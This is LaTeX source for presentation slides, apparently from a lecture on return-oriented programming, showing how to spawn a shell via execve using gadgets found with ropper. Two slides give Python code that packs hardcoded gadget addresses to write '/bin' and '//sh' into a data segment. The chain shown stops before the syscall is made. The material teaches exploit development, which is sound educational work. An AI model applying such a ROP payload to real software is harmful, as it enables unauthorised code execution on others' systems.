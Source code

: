 \documentclass[11pt]{beamer}
\begin{document}
\subsection{General approach}
\begin{frame}
    \frametitle{Spawning a shell: Approach}
    \begin{itemize}
        \item Using ropper we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11)
            \item init systemcall argument (address of /bin//sh)
            \item call systemcall
        \end{enumerate}
    \end{itemize}
\end{frame}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin}
    \begin{lstlisting}[style=code, language=python]
from struct import pack

p = 'AAAABBBBCCCC'
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f6c) # @ .data
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080b526a) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, writing //sh}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f70) # @ .data + 4
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080b526a) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}
\end{document}
